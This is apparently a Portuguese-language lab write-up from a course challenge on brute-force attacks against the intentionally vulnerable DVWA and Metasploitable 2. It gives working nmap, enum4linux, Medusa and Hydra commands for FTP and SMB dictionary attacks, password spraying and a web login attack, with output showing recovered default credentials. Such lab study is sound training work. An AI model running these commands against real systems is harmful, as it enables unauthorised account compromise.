


# Desafio - BruteForce

Este desafio tem como objetivo realizar um estudo prático sobre ataques de força bruta e técnicas de automação de tentativas de autenticação, utilizando um ambiente controlado de laboratório. A proposta faz parte de um desafio da DIO, que incentiva a criação, documentação e execução de cenários ofensivos para consolidar conhecimentos de segurança ofensiva, pentest e auditoria de serviços.

Todo o processo foi conduzido em um ambiente seguro e isolado, seguindo as boas práticas de laboratório, com máquinas e serviços vulneráveis criados exclusivamente para fins educacionais. Ao longo deste estudo, foram utilizados o Kali Linux como máquina atacante e plataformas vulneráveis como o DVWA (Damn Vulnerable Web Application), permitindo explorar, analisar e documentar ataques relacionados a brute force e validação de credenciais.

# 🔧 Preparação do Laboratório

Para iniciar o ambiente de testes, configurei a minha máquina atacante utilizando o Kali Linux, instalado diretamente em minha máquina física via boot. A escolha por usar o Kali nativamente garante melhor desempenho e compatibilidade com ferramentas de pentest, especialmente durante escaneamentos, automação e uso de utilitários como Medusa, Hydra.

## 1º Alvo - Damn Vulnerable Web Application

O primeiro alvo configurado foi o DVWA (Damn Vulnerable Web Application), uma aplicação web propositalmente vulnerável usada para estudos relacionados a ataques web — incluindo brute force, SQL injection, XSS, entre outros.

A instalação e preparação do DVWA foi feita seguindo as instruções detalhadas no artigo disponível em:
*https://iritt.medium.com/setting-up-dvwa-training-platform-cab382e6080b*



## 2º Alvo - Metasploitable 2

Aqui segui apenas o passo-a-passo da video aula seguindo as intruções da instrutora Isadora, utilizando o Oracle VirtualBox



se quiser ver manual mente o ip desse alvo use as credenciais padrão que é msfadmin:msfadmin... porém um bom praticante pode encontrar o mesmo ip usando varredura de rede.

Como mencionado acima pode-se encontrar o ip do 2º alvo de algumas formas, aqui estão algumas

* ```fping -agq 192.168.56.0/24```

* ```netdiscover -i vboxnet0 -r 192.168.56.0/24```

em ambos os casos o resultado é

```
192.168.56.1 -> meu ip
192.168.56.114 -> ip do metasploitable 2
```

no caso do DVWA ele está rodando no meu servidor apache local então seu ip é o meu próprio endereço *localhost*.

Com isso podemos incluir nossos hosts em ```/etc/hosts```

```bash
127.0.0.1       dvwa
192.168.56.114 metasploitable2
```

isso vai facilitar ao executar comandos durantes os ataques apontando para o endereço de host ao inves do endereço ip *(pra não ter que ficar decorando/memorizando)...*

## Enumeração de Rede

Inicialmente deve-se fazer um reconhecimento mais superficial para encontrar artifícios abertos que podemos investigar.

```bash
nmap -Pn dvwa

PORT     STATE SERVICE
80/tcp   open  http
3306/tcp open  mysql
7070/tcp open  realserver
```

```bash
nmap -Pn metasploitable2

PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
23/tcp   open  telnet
25/tcp   open  smtp
53/tcp   open  domain
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
512/tcp  open  exec
513/tcp  open  login
514/tcp  open  shell
1099/tcp open  rmiregistry
1524/tcp open  ingreslock
2049/tcp open  nfs
2121/tcp open  ccproxy-ftp
3306/tcp open  mysql
5432/tcp open  postgresql
5900/tcp open  vnc
6000/tcp open  X11
6667/tcp open  irc
8009/tcp open  ajp13
8180/tcp open  unknown
```

vamos focar no 2º alvo pois demonstra mais serviços abertos para exploração.... com isso aplicamos uma segunda varredura mais aprofundada para coletar informações mais específicas de serviços mais importantes

```bash
nmap -sV -sS metasploitable2 -p 21,22,80,139,445

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```

Podemos usar o *NSE (nmap script engine)* para verificar se o serviço ftp permite as chamadas NULL SESSIONS por meio de login anonimo.

```bash
nmap --script Auth metasploitable2 -p 21

PORT   STATE SERVICE
21/tcp open  ftp
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
```

Parece não ter nenhuma informação no servidor de transferencia de arquivos, porém isso pode ser útil em alguns casos. Com isso vamos aplicar um ataque de dicionário.

## Medusa - Força bruta em serviço de rede

```bash
medusa -h metasploitable2 -U usuariosWordlist.txt -P senhasWordlist.txt -M ftp -t 6
...
2025-11-21 21:33:08 ACCOUNT FOUND: [ftp] Host: metasploitable2 User: msfadmin Password: msfadmin [SUCCESS]
```

Com essas credenciais sim, conseguimos informações do alvo

```bash
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||27776|).
150 Here comes the directory listing.
drwxr-xr-x    6 1000     1000         4096 Apr 28  2010 vulnerable
226 Directory send OK.
ftp> ls -lah
229 Entering Extended Passive Mode (|||33561|).
150 Here comes the directory listing.
drwxr-xr-x    5 1000     1000         4096 May 20  2012 .
drwxr-xr-x    6 0        0            4096 Apr 16  2010 ..
lrwxrwxrwx    1 0        0               9 May 14  2012 .bash_history -> /dev/null
drwxr-xr-x    4 1000     1000         4096 Apr 17  2010 .distcc
-rw-------    1 0        0            4174 May 14  2012 .mysql_history
-rw-r--r--    1 1000     1000          586 Mar 16  2010 .profile
-rwx------    1 1000     1000            4 May 20  2012 .rhosts
drwx------    2 1000     1000         4096 May 18  2010 .ssh
-rw-r--r--    1 1000     1000            0 May 07  2010 .sudo_as_admin_successful
drwxr-xr-x    6 1000     1000         4096 Apr 28  2010 vulnerable
```

## Hydra - Força bruta em formulários web

Agora vamos executar um ataque de força bruta com o mesmo dicionário porém agora à uma autenticação web. Para isso vou estar utilizando o BurpSuite para fazer a interceptação da requisição de autenticação do 1º alvo.

```http://dvwa/dvwa/login.php```

A requisição manda para o backend os parametros username e password

```
POST /dvwa/login.php HTTP/1.1
Host: dvwa
Content-Length: 85
.
.
.
username=teste&password=teste&Login=Login&user_token=68b187e701d15c2f5a1080f735eac3be
```

e recebe em caso de falha

```html
<div class="message">
    Login failed
</div>
```

É agora que a Hydra entra em ação

```
hydra -L usuariosWordlist.txt -P senhasWordlist.txt dvwa http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:F=Login failed"

[80][http-post-form] host: dvwa   login: admin   password: password
```

## Enumeração SMB

```bash
enum4linux -a metasploitable2

...
user:[user] rid:[0xbba]
...
user:[msfadmin] rid:[0xbb8]
...
user:[service] rid:[0xbbc]

Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        tmp             Disk      oh noes!
        opt             Disk
        IPC$            IPC       IPC Service (metasploitable server (Samba 3.0.20-Debian))
        ADMIN$          IPC       IPC Service (metasploitable server (Samba 3.0.20-Debian))

[+] Password Info for Domain: METASPLOITABLE

        [+] Minimum password length: 5
        [+] Password history length: None
        [+] Maximum password age: Not Set
        [+] Password Complexity Flags: 000000
```

Encontramos com enumeração automática, alguns usuários para compor uma wordlist, pastas compartilhadas e a política de senha para um posterior ataque de spraying de senha

## Medusa - Ataque de Spraying de Senhas

```bash
medusa -h metasploitable2 -U usuariosSMB.txt -P senhasSpray.txt -M smbnt -t 2 -T 50

2025-11-21 23:17:57 ACCOUNT FOUND: [smbnt] Host: metasploitable2 User: msfadmin Password: msfadmin [SUCCESS (ADMIN$ - Access Allowed)]
```
